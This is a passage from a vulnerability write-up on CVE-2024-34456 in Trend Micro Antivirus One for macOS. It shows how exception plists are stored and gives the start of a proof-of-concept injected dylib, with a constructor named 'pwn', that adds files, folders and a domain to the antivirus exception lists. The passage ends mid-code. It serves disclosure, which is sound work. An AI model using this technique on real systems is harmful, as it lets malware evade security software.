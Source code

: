 Looking at the **addToExceptionFiles** method we can figure out that it opens the **exFiles.plist** file in the path "**/Users/syrion/Library/Containers/com.Trend Micro.DrSafety/Data/Library/Application Support**"" and writes the exception file inside.

{{< image src="img/2024-05-06-cve-2024-34456-trend-micro-antivirus-one-dylib-injection/img9.png" caption="Figure 9 - addToExceptionFiles Method" wrapper="text-center">}}  

The other methods do the same using the **exFolders.plist** and **exDomains.plist** files in the same path.

{{< image src="img/2024-05-06-cve-2024-34456-trend-micro-antivirus-one-dylib-injection/img10.png" caption="Figure 10 - Exception Files" wrapper="text-center">}} 


These plists contain a list of the exceptions, for example in the image below we can see the **exFile.plist** content when we add a file to the exceptions.

{{< image src="img/2024-05-06-cve-2024-34456-trend-micro-antivirus-one-dylib-injection/img11.png" caption="Figure 11 - exFiles.plist Content" wrapper="text-center">}}  

### Dylib Development
At this point we need to craft a dylib that add our objects in the exception list, for this purpose, I want to add the following objects:
* The file: "**/tmp/poc/proof.txt**”
* The folder: :"**/tmp/poc**”
* The url: "**https://syrion.me**"

We need to import the **VirusCleaner** framework and use the three methods. We can dump classes and methods using the [class-dump](https://github.com/nygard/class-dump) tool.

{{< image src="img/2024-05-06-cve-2024-34456-trend-micro-antivirus-one-dylib-injection/img12.png" caption="Figure 12 - Class-dump Result" wrapper="text-center">}}   


We can create our dylib as shown below.

```Objective-c
#import <Foundation/Foundation.h>
#import <dlfcn.h>
#import <Cocoa/Cocoa.h>

@interface VCConfig : NSObject
{
    NSMutableOrderedSet *_exceptionFiles;
    NSMutableOrderedSet *_exceptionFolders;
    NSMutableOrderedSet *_exceptionDomains;
}

+ (id)sharedInstance;

@property(retain) NSMutableOrderedSet *exceptionDomains; // @synthesize exceptionDomains=_exceptionDomains;
@property(retain) NSMutableOrderedSet *exceptionFolders; // @synthesize exceptionFolders=_exceptionFolders;
@property(retain) NSMutableOrderedSet *exceptionFiles; // @synthesize exceptionFiles=_exceptionFiles;
- (void)removeFromExceptionDomains:(id)arg1;
- (void)addToExceptionDomains:(id)arg1;
- (void)removeFromExceptionFolders:(id)arg1;
- (void)addToExceptionFolders:(id)arg1;
- (void)removeFromExceptionFile:(id)arg1;
- (void)addToExceptionFiles:(id)arg1;
- (id)init;

@end


__attribute__((constructor)) static void pwn(int argc, const char **argv) {
```